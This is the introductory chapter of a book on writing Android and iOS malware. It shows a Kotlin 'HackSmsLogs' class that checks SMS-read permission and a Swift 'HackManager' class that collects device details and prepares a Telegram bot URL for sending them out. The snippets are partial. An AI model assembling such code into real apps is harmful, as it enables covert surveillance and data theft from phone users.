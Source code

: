 ```yaml
---
header-includes:
 - \usepackage{fvextra}
 - \DefineVerbatimEnvironment{Highlighting}{Verbatim}{breaklines,commandchars=\\\{\}}
---
```


## 2. mobile malware development intro

In this book I will show you a little about how you can create simple malware on `Android` and `iOS`, and I will show examples and tricks from real malware found in the wild during the years.      

Most of the tutorials in this book require a understanding of the `Kotlin`:    

```kotlin
package cocomelonc.hack.tools

import android.Manifest
import android.annotation.SuppressLint
import android.content.Context
import android.content.pm.PackageManager
import android.net.Uri
import android.provider.Telephony.Sms

class HackSmsLogs (private val context: Context) {
    @SuppressLint("NewApi")
    private fun isSmsPermissionGranted(context: Context): Boolean {
        val isGranted = context.checkSelfPermission(Manifest.permission.READ_SMS)
        return isGranted == PackageManager.PERMISSION_GRANTED
    }
    //....
}
```


and `Swift` programming languages:

```swift
import Foundation
import SystemConfiguration.CaptiveNetwork
import Network

public class HackManager {
    public static let shared = HackManager(); private init() {}
    public var botToken: String = ""
    public var chatId: String = ""
    private let locationManager = LocationManager()
    private let monitor = NWPathMonitor()

    private var telegramApiUrl: String {
        return "https://api.telegram.org/bot\(botToken)/sendMessage"
    }
    
    // collect systeminfo
    private func collectSystemInfo() throws -> String {
        let device = UIDevice.current
        let processInfo = ProcessInfo.processInfo
        
        let systemName = processInfo.operatingSystemVersionString
        let hostName = processInfo.hostName
        let userName = NSUserName()
        let mem = processInfo.physicalMemory / (1024 * 1024 * 1024)
        let model = device.localizedModel
        let batteryLevel = device.batteryLevel
        let deviceName = device.name

        let systemInfo = """
        📱 System Info:
        📱 Version IOS: \(systemName)
        📱 Device name: \(deviceName)
        📱 Host Name: \(hostName)
        📱 User Name: \(userName)
        📱 Model: \(model)
        📱 Memory usage: \(mem) GB
        📱 Battery level: \(Int(batteryLevel * 100))%
        """
        return systemInfo
    }
}
```

The book is divided into three logical chapters:    
- Android Malware Development Intro    
- iOS Malware Development Intro    
- Mobile Malware in the Wild    

*Please do not ignore sections 4,5,6 (even if you've already read it just refresh your memory) these are important concepts for future mobile malware sections**    

All material in the book is based on my trainings/workshop from
[Prishtina](https://github.com/cocomelonc/bsprishtina-2024-maldev-workshop/) and [my](https://cocomelonc.github.io/) own articles.    

If you have questions, you can ask them on my [email](mailto:cocomelonkz@gmail.com).    

My Github repo: [https://github.com/cocomelonc](https://github.com/cocomelonc)    